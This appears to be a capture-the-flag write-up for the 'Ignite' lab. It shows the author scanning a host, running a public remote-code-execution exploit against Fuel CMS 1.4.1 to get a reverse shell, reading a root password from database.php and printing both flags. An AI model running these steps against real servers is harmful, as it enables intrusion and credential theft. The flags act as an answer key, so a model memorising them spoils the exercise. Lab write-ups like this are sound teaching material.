






## TL;DR

In this challenge we exploit known `RCE` found at the `Fuel CMS`,

Then, we find the root password inside some config file, and move to root in order to grab the root flag.

### Recon

we start with `rustscan`, using this command:
```bash
rustscan -a $target -- -sV -sC -oN nmap.txt -oX nmap.xml
```



we can see port `80` with apache http server.
```bash
PORT   STATE SERVICE REASON         VERSION                                                                                   
80/tcp open  http    syn-ack ttl 62 Apache httpd 2.4.18 ((Ubuntu))                                                            
|_http-title: Welcome to FUEL CMS                              
| http-robots.txt: 1 disallowed entry                                                                                         
|_/fuel/                                                       
|_http-server-header: Apache/2.4.18 (Ubuntu)                                                                                  
| http-methods:                                                
|_  Supported Methods: GET HEAD POST OPTIONS
```

Let'a add `ignite.thm` to our `/etc/hosts`

### Exploit known RCE at the Fuel CMS

I visited the main page, we can see this is `Fuel CMS`:



I checked for the version:
```bash
┌──(agonen㉿kali)-[~/thm/Ignite]
└─$ searchsploit Fuel CMS 1.4           
--------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                 |  Path
--------------------------------------------------------------------------------------------------------------- ---------------------------------
fuel CMS 1.4.1 - Remote Code Execution (1)                                                                     | linux/webapps/47138.py
Fuel CMS 1.4.1 - Remote Code Execution (2)                                                                     | php/webapps/49487.rb
Fuel CMS 1.4.1 - Remote Code Execution (3)                                                                     | php/webapps/50477.py
Fuel CMS 1.4.13 - 'col' Blind SQL Injection (Authenticated)                                                    | php/webapps/50523.txt
Fuel CMS 1.4.7 - 'col' SQL Injection (Authenticated)                                                           | php/webapps/48741.txt
Fuel CMS 1.4.8 - 'fuel_replace_id' SQL Injection (Authenticated)                                               | php/webapps/48778.txt
--------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

we can see several `RCE` exploits for version `1.4.1`, let's use `50477`, execute the next command to mirror the exploit:  
```bash
searchsploit -m 50477
```



Now, just execute the exploit:
```bash
python3 50477.py -u http://ignite.thm/
```



I paste the penelope payload, and got the reverse shell



we can grab the user flag:
```bash
www-data@ubuntu:/home/www-data$ cat flag.txt 
6470e394cbf6dab6a91682cc8585059b
```

### Privilege Escalation to Root using password found inside database.php

Inside `/var/www/html/fuel/application/config/database.php` I can find the root password:
```bash
www-data@ubuntu:/var/www/html/fuel/application/config$ tail database.php -n 25
        'hostname' => 'localhost',
        'username' => 'root',
        'password' => 'mememe',
        'database' => 'fuel_schema',
        'dbdriver' => 'mysqli',
        'dbprefix' => '',
        'pconnect' => FALSE,
        'db_debug' => (ENVIRONMENT !== 'production'),
        'cache_on' => FALSE,
        'cachedir' => '',
        'char_set' => 'utf8',
        'dbcollat' => 'utf8_general_ci',
        'swap_pre' => '',
        'encrypt' => FALSE,
        'compress' => FALSE,
        'stricton' => FALSE,
        'failover' => array(),
        'save_queries' => TRUE
);

// used for testing purposes
if (defined('TESTING'))
{
        @include(TESTER_PATH.'config/tester_database'.EXT);
}
```

Let's try move to user `root` with the passwrd `mememe`



and the root flag
```bash
root@ubuntu:~# cat root.txt                                                                                                   
b9bbcb33e11b80be759c4e844862482d
```
